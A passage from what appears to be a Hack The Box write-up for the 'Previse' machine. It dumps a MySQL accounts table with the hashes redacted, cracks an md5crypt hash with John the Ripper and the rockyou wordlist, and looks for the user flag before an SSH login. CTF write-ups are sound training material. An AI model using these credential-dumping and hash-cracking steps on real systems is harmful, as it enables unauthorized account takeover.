 ### Finding and Cracking Password Hashes from the SQL Database

It seems the credentials do work! That `accounts` table looks pretty interesting. Contents:
```none
mysql> select * from accounts;
select * from accounts;
+----+---------------+------------------------------------+---------------------+
| id | username      | password                           | created_at          |
+----+---------------+------------------------------------+---------------------+
|  1 | m4lwhere      | <REDACTED>                         | 2021-05-27 18:18:36 |
|  2 | Squid         | <REDACTED>                         | 2021-12-23 05:14:33 |
|  3 | username      | <REDACTED>                         | 2021-12-23 07:08:53 |
|  4 | recon_pilot   | <REDACTED>                         | 2021-12-23 07:58:57 |
|  5 | administrator | <REDACTED>                         | 2021-12-23 08:14:22 |
|  6 | username123   | <REDACTED>                         | 2021-12-23 11:38:07 |
|  7 | nada123       | <REDACTED>                         | 2021-12-23 13:11:39 |
+----+---------------+------------------------------------+---------------------+
7 rows in set (0.00 sec)
```

Very nice! We have all existing usernames and their password hashes for each user of the Previse site — of course, only the `m4lwhere` user is of any interest, as all other usernames are HTB users. *Note that, to preserve the integrity of the CTF, the password hashes have been redacted.* John or Hashcat could be used here — I'll use John, since I'm familiar with it and the GPU in my Parrot machine is far from powerful...

```none
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long
Created directory: /home/slak/.john
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

...
```

Lets explore the Previse file system while John is running. Exiting from the SQL database and executing `ls /home` reveals the existence of the `m4lwhere` user's home directory. Pushing further reveals...
```none
www-data@previse:/var/www/html$ ls /home/m4lwhere
user.txt
www-data@previse:/var/www/html$ cat /home/m4lwhere/user.txt
cat: /home/m4lwhere/user.txt: Permission denied
```

The USER flag! Too bad it's read-protected. No matter; remember the open port 22 from the enumeration stage? We'll (hopefully) be able to SSH into Previse as `m4lwhere` soon enough. At that point, the permissions on user.txt won't matter.

After some time, the hash was successfully cracked. 

### Obtaining the USER Flag
Let's see if we can use our newfound password to ssh into Previse as user `m4lwhere`.
